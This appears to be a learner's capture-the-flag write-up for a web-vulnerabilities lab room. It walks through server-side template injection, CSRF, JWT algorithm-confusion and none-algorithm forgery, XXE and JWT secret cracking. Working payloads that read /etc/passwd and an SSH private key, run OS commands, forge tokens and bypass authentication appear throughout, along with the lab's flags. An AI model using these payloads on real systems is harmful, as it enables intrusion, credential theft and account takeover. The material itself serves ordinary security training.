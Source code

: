 > ZTH: Obscure Web Vulns

# Server Side Template Injection

A template engine allows developers to use static HTML pages with dynamic elements. Take for instance a static profile.html page, a template engine would allow a developer to set a username parameter, that would always be set  to the current user's username

Server Side Template Injection, is when a user is able to pass in a parameter that can control the template engine that is running on the server.

**Note: Different template engines have different injection payloads, however usually you can test for SSTI using {{2+2}} as a test.**

## Read files : `{{ ''.__class__.__mro__[2].__subclasses__()[40]()(<file>).read()}}`

## Command Execution : `{{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}` 

1. How would a hacker(you :) ) cat out /etc/passwd on the server(using cat with the rce payload)

`{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`

2. What about reading in the contents of the user test's private ssh key.(use the read file one not the rce one)

`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/home/para/.ssh/id_rsa').read() }}`

# Automatic Exploitation

The basic syntax for tplmap is different depending on whether you're using get or post

```
GET		tplmap -u <url>/?<vulnparam>
POST	tplmap -u <url> -d '<vulnparam>'
```

1. How would I cat out /etc/passwd using tplmap on the ip:port combo 10.10.10.10:5000, with the vulnerable param "noot".

`tplmap -u http://10.10.10.10:5000 -d 'root' --os-cmd "cat /etc/passwd"`

# Challenge: I've created a vulnerable machine for you to test your SSTI skills on! I've placed a flag in /flag aswell, good luck and have fun!

`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/flag').read() }}`

```
cooctus
```

# Cross Site Request Forgery

Cross Site Request Forgery, known as CSRF occurs when a user visits a page on a site, that performs an action on a different site. For instance, let's say a user clicks a link to a website created by a hacker, on the website would be an html tag such as <img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">  which would change the account email on the vulnerable website to "pwned@evil-user.net".  CSRF works because it's the victim making the request not the site, so all the site sees is a normal user making a normal request.

## Tool : pip3 install xsrfprobe

# JSON Web Tokens

We have JWT but algorithm is rs256 which has no exploits.Fortunately for us though, this server leaves its public key lying around, which means we can change the algorithm and sign a new secret! 

1. Change the algorithm in the header to HS256, and then re encode it in base64. 
2. Convert the public key to hex so openssl will use it.

`cat <file> | xxd -p | tr -d "\\n"`

Options:

xxd -p - turns contents of file to hex.
tr -d - removes new lines.

3. use openssl to sign that as a valid HS256 key.

`echo -n "JWT-Token" | openssl dgst -sha256 -mac HMAC -macopt hexkey:<above output>`

4. Decode that hex to binary data, and reencode it in base64,

```
python -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('above_output')).replace('=','')\")"
```

# Challenge

JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJQYXJhZG94IiwiaWF0IjoxNjIwNDg0ODIxLCJleHAiOjE2MjA0ODQ5NDEsImRhdGEiOnsicGluZ3UiOiJub290cyJ9fQ.eMQpuvTyWYbRLLyni6spZTiHoA4XNhGPrYvMZjHrCyDvDujw5tySIexkEAR_HxA1gqV1NUhZmM7XCKCwmrOETKt1qnZc8M-IOzF008xR2T8YDLBAoEfUI4VeemdjK3czsDCdqgE4e473bR0J9T-rMhqfmjbZpV0b-rOSZG-HBErR2xlVnp_-NPFQWzW-baZiFLSSsg2nLoub8SONEH5HqpKbg9h1wl4vmKcKw4aDS2VlYMu8fYPWp-u8ZFIAJgwqgyJ3ww_UzlefBo2_kVCDaDvTcYG8PRY_DdC5lrLjZrigfwmHcyNf2hloXpjnuz3K-7NSRU2K0arGxLVI3vq4vA

We can use RsatoHmac.py to get this done. 

RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJQYXJhZG94IiwiaWF0IjoxNjIwNDg0ODIxLCJleHAiOjE2MjA0ODQ5NDEsImRhdGEiOnsicGluZ3UiOiJub290cyJ9fQ.eMQpuvTyWYbRLLyni6spZTiHoA4XNhGPrYvMZjHrCyDvDujw5tySIexkEAR_HxA1gqV1NUhZmM7XCKCwmrOETKt1qnZc8M-IOzF008xR2T8YDLBAoEfUI4VeemdjK3czsDCdqgE4e473bR0J9T-rMhqfmjbZpV0b-rOSZG-HBErR2xlVnp_-NPFQWzW-baZiFLSSsg2nLoub8SONEH5HqpKbg9h1wl4vmKcKw4aDS2VlYMu8fYPWp-u8ZFIAJgwqgyJ3ww_UzlefBo2_kVCDaDvTcYG8PRY_DdC5lrLjZrigfwmHcyNf2hloXpjnuz3K-7NSRU2K0arGxLVI3vq4vA -p a

```
[*] Decoded Header value: {"typ":"JWT","alg":"RS256"}
[*] Decode Payload value: {"iss":"Paradox","iat":1620484821,"exp":1620484941,"data":{"pingu":"noots"}}
[*] New header value with HMAC: {"typ":"JWT","alg":"HS256"}
[<] Modify Header? [y/N]: N
[<] Enter Your Payload value: {"iss":"Paradox","iat":1620484821,"exp":1620484941,"data":{"pingu":"noots"}}
[+] Successfully Encoded Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJQYXJhZG94IiwiaWF0IjoxNjIwNDg0ODIxLCJleHAiOjE2MjA0ODQ5NDEsImRhdGEiOnsicGluZ3UiOiJub290cyJ9fQ.-Re8VbWJzFmzBIWxNMO3nGtstTVoCRNGPRe1FdKXjWU
```

# Flag

```
nootnootisthebestflag is the flag
```

# JWT None algorithm

# Header: 

```
{
  "typ": "JWT",
  "alg": "None"
}
```

# Payload: 

```
{
  "auth": 1620485261986,
  "agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
  "role": "root",
  "iat": 1620485262
}
```

eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjogMTYyMDQ4NTI2MTk4NiwgImFnZW50IjogIk1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6NzguMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC83OC4wIiwgInJvbGUiOiAicm9vdCIsICJpYXQiOiAxNjIwNDg1MjYyfQ.

```
flag=supernootnoot
```

# XXE

By intercepting the request from the login form we can put the payload from PayloadAllTheThings and we can get /etc/passwd file

```
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root><name>test12</name><tel>
aaa</tel><email>
&xxe;
</email><password>test</password></root>
```

# Bonus Challenge

JWT : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.it4Lj1WEPkrhRo9a2-XHMGtYburgHbdS5s7Iuc1YKOE 

Find the secret.

jwt-cracker  eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.it4Lj1WEPkrhRo9a2-XHMGtYburgHbdS5s7Iuc1YKOE abcdefghijklmnopqrstuvwxyz 4

```
Attempts: 100000
Attempts: 200000
Attempts: 300000
SECRET FOUND: pass
Time taken (sec): 6.961
Attempts: 346830
```